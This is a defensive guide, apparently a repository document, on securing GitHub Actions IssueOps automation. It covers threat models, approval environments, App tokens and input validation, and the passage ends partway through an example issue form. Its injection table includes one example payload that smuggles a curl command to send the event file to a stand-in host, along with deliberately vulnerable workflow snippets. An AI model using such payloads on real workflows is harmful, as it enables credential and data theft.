

# GitHub Actions Security for IssueOps and Resource Automation

> **Document status**
>
> * **Last reviewed:** 2026-09-30
> * **Authorship:** Drafted with AI assistance (GitHub Copilot, multi-model review) and reviewed by a human maintainer before publication.
> * **Sources:** Based on public documentation, primarily [docs.github.com](https://docs.github.com), the [GitHub Well-Architected Framework](https://github.com/github/github-well-architected/blob/a30275b/content/library/application-security/recommendations/actions-security.md), the [IssueOps documentation](https://issue-ops.github.io/docs/), and the official action repositories cited inline.
> * **Verify before acting:** GitHub updates product documentation and action releases continuously. Re-confirm against the live source pages, and test every workflow in a sandbox organization before relying on this content for production decisions.

## Table of Contents

1. [Overview](#1-overview)
2. [How an IssueOps request flows](#2-how-an-issueops-request-flows)
3. [Threat model](#3-threat-model)
4. [Defense-in-depth layers](#4-defense-in-depth-layers)
5. [Platform and organization settings](#5-platform-and-organization-settings)
6. [Harden the IssueOps repository](#6-harden-the-issueops-repository)
7. [Automation identity with GitHub Apps](#7-automation-identity-with-github-apps)
8. [Treat issue content as untrusted](#8-treat-issue-content-as-untrusted)
9. [Authorization and approval](#9-authorization-and-approval)
10. [Execute changes safely](#10-execute-changes-safely)
11. [Reference implementation: new repository request](#11-reference-implementation-new-repository-request)
12. [Secure reusable workflows and their inputs](#12-secure-reusable-workflows-and-their-inputs)
13. [Supply chain for the automation itself](#13-supply-chain-for-the-automation-itself)
14. [Runners](#14-runners)
15. [Monitoring and audit](#15-monitoring-and-audit)
16. [Testing the workflows](#16-testing-the-workflows)
17. [Patterns to avoid from public samples](#17-patterns-to-avoid-from-public-samples)
18. [Implementation validation checklist](#18-implementation-validation-checklist)
19. [References](#19-references)

---

## 1. Overview

IssueOps uses GitHub Issues as the request interface and GitHub Actions as the automation engine. A user fills in an issue form, a workflow parses and validates it, an authorized person approves it, and a workflow performs the change. Platform teams use this pattern for self-service administration: creating repositories, granting team access, setting custom properties, or onboarding users.

These workflows combine the two ingredients an attacker looks for:

* Input that any requester controls (issue titles, bodies, comments)
* A credential that can change organization-wide settings (a GitHub App installation token or, worse, a personal access token)

The GitHub Well-Architected Framework puts it plainly: CI/CD tools "inherently provide remote code execution as a service". An IssueOps workflow that creates repositories is a remote administration service, and it deserves the same design review as any privileged internal API.

### Core rules

Every recommendation in this guide supports four rules:

1. Treat issue content as untrusted. Parse it with a schema, validate it against allowlists, pass values through environment variables, and never place it in `run:` or `script:` through `${{ }}` expressions.
2. Keep the privileged credential away from untrusted input. Validation runs without write credentials; the write credential appears only in a job that has passed human approval.
3. Authorize explicitly. Approval comes from a named group through a native control (protected environments), is never self-granted, and is bound to the exact content that was reviewed.
4. Trust nothing you did not pin. Actions pinned to full commit SHAs, dependencies installed from a lockfile, and workflow files protected by rulesets and CODEOWNERS.

### Scope

* GitHub Enterprise Cloud and GitHub Enterprise Server. Several features (environment required reviewers on private or internal repositories, SHA-pinning policy, enterprise installation tokens) depend on plan and version; check each against your instance.
* Workflows triggered by `issues` and `issue_comment` that call the GitHub REST or GraphQL API to create or update resources.
* PR-based IssueOps flows where noted.

### Related documents

* [GitHub Actions Security: Echo Command Injection](17-github-actions-security-echo-command-injection.md) covers the general injection pattern with more payload examples.
* [GitHub Actions Multi-Repo Checkout Strategy](17-github-actions-repos-checkout-strategy.md) covers `GITHUB_TOKEN` scope and short-lived GitHub App tokens.
* [Security-by-Default Policies](11-security-by-default-policies.md) and [GitHub Custom Properties](23-github-custom-properties.md) cover the guardrails that should apply to every repository the automation creates.

---

## 2. How an IssueOps request flows

The [GitHub Blog article on IssueOps](https://github.blog/engineering/issueops-automate-ci-cd-and-more-with-github-issues-and-actions/) models each request as a finite-state machine: states, events, transitions, guards, and actions. Security design fits the same model. Each guard is a security check, and each transition decides which credential is available.



| Transition            | Trigger                                   | Job        | Credentials available                                   | Untrusted input handled                  |
|-----------------------|-------------------------------------------|------------|---------------------------------------------------------|------------------------------------------|
| Opened to Validated   | `issues`: `opened`, `edited`, `reopened`  | `validate` | `GITHUB_TOKEN` (`issues: write`), read-only App token   | Issue title and body                     |
| Validated to Submitted| `issue_comment`: `created` with `.submit` | `submit`   | `GITHUB_TOKEN` (`issues: write`), read-only App token   | Issue body, comment body                 |
| Submitted to Approved | Environment reviewer approval             | `apply`    | None until a reviewer approves                          | None                                     |
| Approved to Applied   | Job resumes after approval                | `apply`    | Write App token scoped per run                          | Current issue body, re-fetched from API  |

### Trust facts that shape the design

* Workflows triggered by `issues` and `issue_comment` always run the workflow file from the default branch. A pull request cannot change the workflow that processes a request ([IssueOps: Workflow Security](https://issue-ops.github.io/docs/introduction/workflow-security)). Anything the workflow checks out, such as custom validator scripts, also comes from the default branch unless you check out a different ref.
* The `issue_comment` event fires for comments on both issues and pull requests. Filter out pull requests explicitly.
* The event payload is a snapshot taken when the event fired. If a job waits for approval, the issue may have changed by the time the job resumes. The apply job must re-read the issue and confirm it still matches what was approved (see [9.4](#94-bind-approval-to-the-reviewed-content)).
* Anyone with read access can open an issue and comment. In an `internal` repository, that is every enterprise member.

---

## 3. Threat model

| ID  | Threat                                  | How it happens in IssueOps                                                                                                                                                    | Primary controls                                        |
|-----|-----------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------|
| T1  | Script injection                        | Issue title, body, or comment reaches `run:` or `actions/github-script` `script:` through `${{ }}` and executes with the job's token and secrets                              | [8.2](#82-injection-sinks)-[8.4](#84-rule-2-never-interpolate-into-github-script)  |
| T2  | Environment file injection              | Untrusted text containing newlines is written to `$GITHUB_ENV` or `$GITHUB_OUTPUT` and defines new variables or outputs for later steps                                       | [8.5](#85-rule-3-do-not-write-untrusted-text-to-environment-files)                  |
| T3  | Argument or option injection            | A value such as `--visibility=public` or `../other-repo` is passed to a CLI or API path and changes its meaning                                                               | [8.7](#87-validate-against-allowlists), [10](#10-execute-changes-safely)            |
| T4  | Business-logic abuse                    | A well-formed request asks for something the requester should not get: a public repository, admin role, a team they do not belong to, a reserved name                       | [8.7](#87-validate-against-allowlists), [10](#10-execute-changes-safely)            |
| T5  | Unauthorized or self-approval           | Anyone comments `.approve`, applies an `approved` label, or approves their own request                                                                                       | [9](#9-authorization-and-approval)                     |
| T6  | Time-of-check to time-of-use (TOCTOU)   | The requester edits the issue body after it was validated or reviewed but before the change is applied                                                                        | [9.4](#94-bind-approval-to-the-reviewed-content)      |
| T7  | Credential theft                        | The write credential is reachable from a job that processes untrusted input, from a compromised dependency, or from any workflow that can read repository secrets            | [6.4](#64-environments), [7](#7-automation-identity-with-github-apps), [13](#13-supply-chain-for-the-automation-itself) |
| T8  | Malicious workflow or validator change  | A contributor changes workflow files, validator scripts, `package.json`, or allowlists                                                                                        | [6.2](#62-rulesets-and-codeowners)                    |
| T9  | Pull request comment trigger            | A `.submit` comment on a pull request triggers the same `issue_comment` workflow                                                                                              | [8.9](#89-match-commands-exactly-and-filter-the-event) |
| T10 | Compromised or mutable third-party code | A tag of a third-party action is moved, or an action pulls unpinned code at runtime                                                                                          | [5.1](#51-restrict-allowed-actions-and-require-sha-pinning), [13](#13-supply-chain-for-the-automation-itself) |
| T11 | Duplicate or replayed processing        | Repeated `.submit` comments, re-runs, or concurrent events apply the same change twice or in a half-finished state                                                           | [9.6](#96-concurrency-and-idempotency)               |
| T12 | Information disclosure and spoofing     | Bot comments reflect raw input (phishing links, `@` mentions), error messages echo secrets, or forms collect sensitive data                                                   | [8.10](#810-reflecting-input-in-comments)            |
| T13 | Runner compromise                       | A persistent self-hosted runner keeps state or credentials between jobs                                                                                                      | [14](#14-runners)                                     |
| T14 | Untrusted caller or inputs to a reusable workflow | Any repository allowed to call a privileged reusable workflow passes arbitrary `with:` inputs, selects secrets through `secrets: inherit`, or steers the environment, runner, or token scope | [12](#12-secure-reusable-workflows-and-their-inputs) |

---

## 4. Defense-in-depth layers

No single control is enough. A validator bug should be caught by the approval gate; a careless approval should be caught by the platform guardrails on the created repository.

| Layer | Purpose                                                    | Sections                                                                                   |
|-------|------------------------------------------------------------|--------------------------------------------------------------------------------------------|
| 1     | Enterprise and organization policies limit what any workflow can do | [5](#5-platform-and-organization-settings)                                      |
| 2     | The IssueOps repository protects its own code and secrets  | [6](#6-harden-the-issueops-repository)                                                      |
| 3     | A least-privilege automation identity bounds the blast radius | [7](#7-automation-identity-with-github-apps)                                           |
| 4     | Input handling prevents injection and business-logic abuse | [8](#8-treat-issue-content-as-untrusted), [12](#12-secure-reusable-workflows-and-their-inputs) |
| 5     | Authorization gates every privileged transition           | [9](#9-authorization-and-approval)                                                         |
| 6     | Execution re-checks invariants and fails closed           | [10](#10-execute-changes-safely)                                                           |
| 7     | Monitoring and testing detect what the other layers miss   | [15](#15-monitoring-and-audit), [16](#16-testing-the-workflows)                            |

---

## 5. Platform and organization settings

Configure these once at enterprise or organization level. They protect every IssueOps repository, including the ones you do not know about yet.

### 5.1 Restrict allowed actions and require SHA pinning

* Use the "Allow enterprise, and select non-enterprise, actions and reusable workflows" policy to control which actions can run ([WAF: Restrict allowed actions](https://github.com/github/github-well-architected/blob/a30275b/content/library/application-security/recommendations/actions-security.md)).
* Enable the policy that requires actions and reusable workflows to be pinned to a full-length commit SHA. GitHub offers it at enterprise, organization, and repository level ([Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use)).
* Manage the allowed-actions list as policy as code (REST API or Terraform) so additions go through review and leave an audit trail, as the WAF suggests.

### 5.2 Default `GITHUB_TOKEN` to read-only

Set the organization default workflow permission to read repository contents only. Each workflow then declares `permissions: {}` at the top and grants what it needs per job ([WAF: least privilege](https://github.com/github/github-well-architected/blob/a30275b/content/library/application-security/recommendations/actions-security.md)).

### 5.3 Prevent Actions from creating or approving pull requests

Unless a workflow needs it, disable "Allow GitHub Actions to create and approve pull requests". Automation that can approve its own pull requests can bypass review on the IssueOps repository itself.

### 5.4 Fork pull request settings

If an IssueOps flow accepts pull requests, do not send write tokens or secrets to workflows from fork pull requests, and require approval for fork pull request workflows. The [IssueOps repository guidance](https://issue-ops.github.io/docs/setup/repository) suggests wrapping PR creation inside the IssueOps flow instead, so forks never need to run workflows.

### 5.5 Scan workflows with code scanning

Enable CodeQL default setup with GitHub Actions analysis on the IssueOps repository. CodeQL detects common vulnerable workflow patterns, including expression injection ([Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use)). Require code scanning results in the default-branch ruleset.

### 5.6 Guardrails on the resources you create

The automation is not the last line of defense. Enterprise or organization rulesets targeted by custom properties, plus repository policies (for example on visibility changes and deletion), apply to every repository the automation creates. Set governance properties at creation time (see [10](#10-execute-changes-safely)) so the right rulesets apply from the first commit. See [Security-by-Default Policies](11-security-by-default-policies.md) and [GitHub Custom Properties](23-github-custom-properties.md).

---

## 6. Harden the IssueOps repository

### 6.1 Visibility and access

* Requesters only need read access to open issues ([IssueOps: Repository](https://issue-ops.github.io/docs/setup/repository)). Use `internal` visibility for enterprise-wide self-service, or `private` with explicit read grants to limit who can submit.
* Grant write access only to the maintainers of the automation. Anyone with write access can read repository-level secrets by pushing a workflow to a branch ([Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use)), which is why the write credential lives in an environment (see [6.4](#64-environments)).
* Disable blank issues so requests always start from a form:

```yaml
# .github/ISSUE_TEMPLATE/config.yml
blank_issues_enabled: false
```

A requester can still edit the issue body freely after creation, so this is a usability control, not a security boundary. The validator is the boundary.

### 6.2 Rulesets and CODEOWNERS

Protect the default branch with a ruleset:

* Require a pull request with at least two approvals and code owner review
* Require status checks, including code scanning results
* Block force pushes and deletions
* Allow bypass only for a documented break-glass role, and review bypasses in the audit log

Add CODEOWNERS entries for everything that decides what the automation executes:

```text
# .github/CODEOWNERS
/.github/workflows/        @org/platform-security
/.github/ISSUE_TEMPLATE/   @org/platform-security
/.github/validator/        @org/platform-security
/.github/issueops/         @org/platform-security
/package.json              @org/platform-security
/package-lock.json         @org/platform-security
/.github/CODEOWNERS        @org/platform-security
```

### 6.3 Labels are not a security boundary

Users with triage access or above can add and remove labels. Use labels to scope jobs and show state, but never as proof of approval. Guards that matter (who submitted, who approved, whether content changed) are checked from the event payload, the API, and environment approvals.

### 6.4 Environments

Create an environment, for example `issueops-apply`, for the job that performs changes:

| Setting                                    | Value                                                                                        |
|--------------------------------------------|----------------------------------------------------------------------------------------------|
| Required reviewers                         | The platform team (up to six users or teams; one approval is enough)                         |
| Prevent self-review                        | Enabled, so the person who triggered the run cannot approve it                               |
| Deployment branches and tags               | Selected branches: the default branch only                                                   |
| Allow administrators to bypass             | Disabled                                                                                     |
| Environment secrets                        | The write App private key. Nowhere else: not a repository secret, not an organization secret |

A job cannot read environment secrets until a required reviewer approves it ([Deployments and environments](https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments)). Because `issues` and `issue_comment` runs use the default-branch ref, the branch restriction does not block IssueOps runs, but it does block a workflow pushed to a feature branch from referencing the environment.

> [!IMPORTANT]
> On GitHub Free, Pro, and Team plans, required reviewers and administrator-bypass controls are available only for public repositories. For a private or internal IssueOps repository you need GitHub Enterprise. Without required reviewers, implement comment-based approval as described in [9.3](#93-if-you-use-comment-based-approval), and accept that the key is less isolated.

> [!WARNING]
> Workflows on self-hosted runners are not isolated even when they use environments. Environment secrets on a shared self-hosted runner should be treated like repository secrets ([Deployments and environments](https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments)).

---

## 7. Automation identity with GitHub Apps

### 7.1 Use GitHub Apps, not personal access tokens

A personal access token acts as a person, survives role changes, and is usually over-scoped. Use a GitHub App owned by the organization, with webhooks disabled and only the permissions it needs ([IssueOps: GitHub App](https://issue-ops.github.io/docs/setup/github-app)). Generate a short-lived installation token in each job with [`actions/create-github-app-token`](https://github.com/actions/create-github-app-token). The token is masked, expires after one hour, and is revoked when the job ends unless you set `skip-token-revoke`. Do not set it.

> [!NOTE]
> Older IssueOps guidance says GitHub Apps cannot be used for enterprise administrative APIs and recommends a machine-user PAT. Current releases of `actions/create-github-app-token` accept an `enterprise` input that creates a token for an enterprise installation. Check whether the enterprise APIs you need support App installation tokens before falling back to a PAT, and if you must use one, prefer a fine-grained token on a dedicated account.

### 7.2 Split read and write identities

A single App whose key is available to every job gives the validation job, which processes untrusted input, the same power as the apply job. Use two Apps:

| App               | Permissions (starting point, verify per endpoint)                                                           | Installation                                                              | Key stored as                                 | Used by                                 |
|-------------------|--------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------|-----------------------------------------------|-----------------------------------------|
| `issueops-reader` | Organization: Members read. Repository: Metadata read (granted by default)                                   | All repositories, so existence checks see private repositories            | Repository secret                             | Validation in every job                 |
| `issueops-writer` | Repository: Administration write, Custom properties write. Organization: Members read                        | As narrow as your operations allow; test in a sandbox                     | Environment secret on `issueops-apply` only   | The apply job, after approval           |

* Check each REST endpoint's "Fine-grained access" section for the exact permission it needs, and add nothing else.
* Selecting repositories on an installation does not make organization-level permissions repository-scoped. Keep organization permissions to the minimum.
* Creating repositories in an organization may require an installation on all repositories. If so, compensate with per-run token scoping and the approval gate.
* Store the App client ID as a variable; it is not sensitive. Store private keys as secrets and rotate them on a schedule and whenever a maintainer with access leaves.

### 7.3 Scope each token to the run

`actions/create-github-app-token` lets each job request a subset of the installation's permissions and repositories. By default a token inherits all installation permissions, so always list what the job needs:

```yaml
- name: Create write token
  id: writer
  uses: actions/create-github-app-token@<SHA> # v3
  with:
    client-id: ${{ vars.ISSUEOPS_WRITER_CLIENT_ID }}
    private-key: ${{ secrets.ISSUEOPS_WRITER_PRIVATE_KEY }}
    owner: ${{ github.repository_owner }}
    permission-administration: write
    permission-members: read
```

The action rejects permissions the installation does not have, so a typo fails closed.

### 7.4 Keep `id-token: write` out unless you use OIDC

Some IssueOps examples grant `id-token: write` at workflow level. `actions/create-github-app-token` signs its request with the App private key and does not need an OIDC token. Grant `id-token: write` only to a job that authenticates to a cloud provider or vault through OIDC, for example to fetch the App key from Azure Key Vault instead of storing it in GitHub.

### 7.5 Use the right token for each call

Use the workflow's own `GITHUB_TOKEN` (with job-level `issues: write`) for comments, labels, and closing the request issue. Use the App token only for calls outside the IssueOps repository ([IssueOps: GitHub App](https://issue-ops.github.io/docs/setup/github-app)). Pass the App token only to the steps that need it; every step that receives it is part of your trusted computing base.

---

## 8. Treat issue content as untrusted

### 8.1 What counts as untrusted

Everything a requester can type or influence, and everything derived from it:

* `github.event.issue.title` and `github.event.issue.body`
* `github.event.comment.body`
* Values from issue forms, including dropdowns: the form UI limits choices, but the requester can edit the Markdown body after submission
* Outputs of `issue-ops/parser` (`json` and `parsed_<key>`)
* Outputs of `issue-ops/validator` (`errors` may contain text derived from input)
* Any step output, artifact, or API response that includes the above
* `github.head_ref` and branch names, commit messages, and PR titles and bodies, for PR-based flows

GitHub Security Lab's [untrusted input guidance](https://securitylab.github.com/resources/github-actions-untrusted-input/) lists more contexts.

### 8.2 Injection sinks

`${{ }}` expressions are expanded before the step runs. Whatever the expression returns becomes part of the script source.

| Sink                                         | Why it is dangerous                                                                                      | Safe alternative                                                                  |
|----------------------------------------------|-----------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| `run:` shell scripts                          | A value like `a"; curl -d @$GITHUB_EVENT_PATH evil.example; "` becomes shell code                          | Intermediate environment variable, quoted (`"$VALUE"`)                             |
| `actions/github-script` `script:`             | A single quote in the value closes a JavaScript string literal, and the rest runs with the job's token     | Environment variable read through `process.env`                                    |
| `$GITHUB_ENV`, `$GITHUB_OUTPUT`, `$GITHUB_PATH` | A newline in the value defines extra variables or outputs, or prepends to `PATH`                          | `core.setOutput`, or do not persist untrusted text                                 |
| CLI arguments                                 | A value starting with `-` is parsed as an option; a value with `/` or `..` can change an API path          | Strict allowlist validation, API calls with typed parameters, `--` end-of-options  |
| Bot comments                                  | Raw Markdown can carry links, images, or `@` mentions that impersonate the bot                             | Render only validated values, inside code spans                                    |

`if:` conditions are evaluated by the Actions expression engine, not a shell, so they are not a script-injection sink. They are a logic sink: write exact comparisons (see [8.9](#89-match-commands-exactly-and-filter-the-event)).

### 8.3 Rule 1: pass values through environment variables

```yaml
# Vulnerable: the title becomes part of the script
- run: echo "Processing ${{ github.event.issue.title }}"

# Safe: the title is data in an environment variable
- env:
    ISSUE_TITLE: ${{ github.event.issue.title }}
  run: echo "Processing $ISSUE_TITLE"
```

This is the approach the [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks) recommends for inline scripts. Quote the variable to avoid word splitting. Better still, pass the value as an input (`with:`) to an action, which never becomes shell source.

### 8.4 Rule 2: never interpolate into `github-script`

`actions/github-script` runs JavaScript with an authenticated Octokit client. Treat `script:` exactly like `run:`.

```yaml
# Vulnerable: a ' in any form field ends the string literal
- uses: actions/github-script@<SHA> # v8
  with:
    github-token: ${{ steps.writer.outputs.token }}
    script: |
      const request = JSON.parse('${{ steps.parse.outputs.json }}')

# Safe: the JSON arrives as data
- uses: actions/github-script@<SHA> # v8
  env:
    PARSED: ${{ steps.parse.outputs.json }}
  with:
    github-token: ${{ steps.writer.outputs.token }}
    script: |
      const request = JSON.parse(process.env.PARSED)
```

Expressions over trusted, non-user values such as `github.run_id` are safe, but using `process.env` everywhere keeps reviews simple: any `${{` inside `script:` is a finding.

### 8.5 Rule 3: do not write untrusted text to environment files

Do not copy request fields into `$GITHUB_ENV` or `$GITHUB_PATH`. For outputs, use `core.setOutput` from `github-script`, which encodes values safely. If a shell step must write a multiline output, use a random delimiter:

```bash
delimiter="EOF_$(openssl rand -hex 16)"
{
  echo "summary<<$delimiter"
  printf '%s\n' "$SUMMARY"
  echo "$delimiter"
} >> "$GITHUB_OUTPUT"
```

The WAF also warns against defining global environment variables in `$GITHUB_ENV` from untrusted data in `workflow_run` workflows.

### 8.6 Parse with a schema

Use [issue forms](https://docs.github.com/en/communities/using-templates-to-encourage-useful-issues-and-pull-requests/syntax-for-issue-forms) and [`issue-ops/parser`](https://github.com/issue-ops/parser) with the `issue-form-template` input. With the template, the parser keys fields by their `id` and converts types: dropdowns become arrays and checkboxes become `selected` and `unselected` lists. Without the template, every value is an unchecked string.

Design forms for validation:

* Use `dropdown` for every enumerated choice (visibility, role, template, classification). The validator rejects selections that are not in the template.
* Use `input` for identifiers that need a pattern (repository name, team slug).
* Use `textarea` only for text that humans read, such as a justification. The automation never executes it.
* Never ask for secrets. The [IssueOps best practices](https://issue-ops.github.io/docs/introduction/best-practices) recommend fields that reference sensitive information stored elsewhere.

### 8.7 Validate against allowlists

[`issue-ops/validator`](https://github.com/issue-ops/validator) checks the parsed body against the form template (required fields, input types, dropdown and checkbox selections) and runs custom validators you define in `.github/validator/config.yml`.

| Field                | Rule                                                                                                                          |
|----------------------|-------------------------------------------------------------------------------------------------------------------------------|
| Repository name      | Organization naming standard, for example `^[a-z0-9][a-z0-9-]{1,62}[a-z0-9]$`; not reserved; does not already exist          |
| Visibility           | Dropdown limited to `private` and `internal`. Never offer `public` through self-service                                       |
| Owning team          | Slug pattern; team exists; requester is an active member                                                                      |
| Team role            | Dropdown limited to `push` and `maintain`. Never grant `admin` through self-service                                           |
| Template repository  | Dropdown of approved templates                                                                                               |
| Custom properties    | Dropdown values that match the property's allowed values; compliance-driving properties set only by the automation           |

Custom validators are code that runs inside the job:

* The validator README warns that running arbitrary scripts is dangerous and recommends `on: issues` triggers, which use the default branch. Never check out a pull request or other untrusted ref into the workspace where the validator runs.
* Install dependencies with `npm ci --ignore-scripts` from a committed lockfile.
* Give custom validators a read-only token through an environment variable, not the write token.
* Return fixed error messages. Do not reflect the submitted value back, because validator errors end up in comments and step outputs.

Enforce the same invariants again in the apply code (see [10](#10-execute-changes-safely)). A form change that accidentally adds `public` to a dropdown should still fail.

### 8.8 Re-validate at every transition

The requester can edit the issue body at any time. The IssueOps best practices say to validate at every step. In practice:

* The `validate` job runs on `opened`, `edited`, and `reopened`.
* The `submit` job re-parses and re-validates before asking for approval.
* The `apply` job re-fetches the current issue from the API, re-parses, re-validates, and compares the result with what was approved.

### 8.9 Match commands exactly and filter the event

Guard every `issue_comment` job:

```yaml
if: >-
  !github.event.issue.pull_request &&
  github.event.issue.state == 'open' &&
  contains(github.event.issue.labels.*.name, 'issueops:new-repository') &&
  startsWith(github.event.comment.body, '.submit') &&
  github.event.comment.user.login == github.event.issue.user.login &&
  github.event.comment.user.type == 'User'
```

* `!github.event.issue.pull_request` stops pull request comments from triggering the job.
* `startsWith` is only a coarse filter. The first step of the job then requires the trimmed comment to equal `.submit` exactly, which tolerates trailing whitespace or newlines but rejects `.submit-and-something` or extra text.
* The author check means only the requester can submit their own request.
* The type check ignores bot comments, including your own automation's.

### 8.10 Reflecting input in comments

Bot comments are trusted by readers because they come from the automation. Render only validated values, inside code spans, and never render free-text fields. If you customize validator comment templates (`success.mustache`, `failure.mustache`), apply the same rule.

---

## 9. Authorization and approval

### 9.1 Who can do what

| Action                          | Who                                           | Enforced by                                                                        |
|---------------------------------|-----------------------------------------------|------------------------------------------------------------------------------------|
| Open a request                  | Anyone with read access                       | Repository visibility and access                                                    |
| Submit a request                | The issue author only                         | Job `if:` guard comparing comment author and issue author                           |
| Approve or reject               | Platform team, never the requester            | Environment required reviewers with prevent self-review                             |
| Change workflows or validators  | Code owners, through reviewed pull requests   | Rulesets and CODEOWNERS                                                            |
| Bypass                          | Documented break-glass role                   | Ruleset bypass list, reviewed in the audit log                                      |

### 9.2 Use environments for approval

Put the job that performs changes behind the `issueops-apply` environment from [6.4](#64-environments):

* The run is triggered by the requester's `.submit` comment, so the requester is the user who initiated it. With prevent self-review enabled, the requester cannot approve it, even if they are a platform team member.
* The approval is recorded by GitHub with the approver's identity, and it happens before the job can read the write key.
* Rejecting the deployment stops the job before any step runs. No custom `.deny` logic is needed, but the requester is not told automatically: the reviewer comments on the issue, or a separate notification workflow reports rejected runs.

Reviewers approve in the workflow run, not in the issue. The submit job writes the validated values and the request digest both to the issue and to its job summary, which reviewers see on the run page where they approve. Reviewers should confirm that the summary matches the issue before approving; the digest check then guarantees that what runs is what they saw.

### 9.3 If you use comment-based approval

If environments with required reviewers are not available, the approval job must do everything the environment would have done:

* Check that the commenter is an active member of the approver team through the API (`GET /orgs/{org}/teams/{team_slug}/memberships/{username}`), and fail closed on any error.
* Reject approval from the issue author.
* Do not rely on `author_association`. It describes the commenter's relationship to the repository, not membership of your approver team.
* Generate the write token only after these checks pass, in the same job.
* Store the write key as a secret that only default-branch workflows can use, and accept that anyone with write access to the repository can reach repository secrets.

### 9.4 Bind approval to the reviewed content

Without this step, a requester can submit a valid request, wait until a reviewer opens the approval page, then edit the issue body. The job that resumes would either process the stale payload (which no longer matches what reviewers see in the issue) or, if it re-reads the issue, process content nobody reviewed.

1. In the `submit` job, compute a SHA-256 digest over the canonical parsed request and post it in the review summary.
2. Pass the digest to the `apply` job as a job output.
3. In the `apply` job, fetch the current issue body from the API, parse and validate it, compute the digest again, and stop if it differs.

The requester then has to submit again, and reviewers approve the new content. Locking the issue after submission reduces noise, but locking controls comments, so keep the digest check.

### 9.5 Labels are state, not authority

The IssueOps blog sample tracks state with `validated`, `submitted`, `approved`, and `denied` labels. That is useful for users and for scoping jobs. Do not treat an `approved` label as approval: anyone with triage access can add it.

### 9.6 Concurrency and idempotency

* Add job-level `concurrency` keyed on the issue number to the apply job, with `cancel-in-progress: false`, so two runs never apply the same request at once. A concurrency group holds at most one running and one pending job; a newer pending job cancels an older pending one. Depending on timing, an earlier submission can therefore be cancelled before review, and the requester resubmits. Test this behavior in the sandbox.
* Add a separate concurrency group to the submit job so repeated `.submit` comments do not produce duplicate review summaries.
* Make the change idempotent. Check that the repository does not exist before creating it, and treat "already exists" as a failure that a human looks at, not as success.
* Close the issue when the change completes. Guards that require `state == 'open'` stop replays from later comments.

---

## 10. Execute changes safely

* Separate validation and execution into different jobs. The validation jobs have no write credential; the apply job gets one only after approval. Pass only the digest between jobs and re-derive everything else from the API.
* Prefer API calls with typed parameters (`actions/github-script` and Octokit) over shell and the `gh` CLI. If you must use a CLI, pass values through environment variables, quote them, and put `--` before positional arguments.
* Re-check invariants in the apply code even though the validator already did: visibility is never `public`, role is never `admin`, name matches the pattern, classification is an allowed value. Fail closed on anything unexpected.
* Set governance metadata when the resource is created. The create-organization-repository endpoint accepts `custom_properties`, so rulesets targeted by those properties apply from the start instead of after a second call.
* Request the write token as late as possible and give it only to the steps that call the API.
* Handle partial failure. Creating a repository and granting access are separate API calls. Record which calls succeeded, report a partial state clearly (repository URL plus the step that failed), and leave cleanup to a human. Do not let the automation delete repositories to roll back.
* Report what happened. Post a final comment with the result, the approver's login, the digest, and the run link, then close the issue. Recording the approver in the issue keeps the evidence after run logs expire.
* Keep destructive operations (deletion, visibility changes to `public`, transfers, admin grants) out of self-service, or put them behind a separate environment with a different reviewer group.

---

## 11. Reference implementation: new repository request

This example creates a repository, grants a team access, and sets a custom property. It applies the controls from sections 5 to 10.

> [!IMPORTANT]
> Replace every `<SHA>` with the full-length commit SHA of a reviewed release from the action's own repository, and keep the version comment so Dependabot can propose updates. The version comments reflect the major versions current at the time of writing. Test in a sandbox organization first.

### 11.1 Repository layout

```text
.github/
  CODEOWNERS
  ISSUE_TEMPLATE/
    config.yml
    new-repository.yml
  issueops/
    digest.cjs
  validator/
    config.yml
    owning-team.js
    repository-name.js
  workflows/
    issueops-validate.yml
    issueops-new-repository.yml
package.json
package-lock.json
```

`package.json` sets `"type": "module"` (the validator requires ESM scripts) and depends on `@actions/core` and `@octokit/rest`. Commit the lockfile.

### 11.2 Issue form

```yaml
# .github/ISSUE_TEMPLATE/new-repository.yml
name: New repository request
description: Request a new repository in this organization
title: "[New repository] "
labels:
  - issueops:new-repository
body:
  - type: markdown
    attributes:
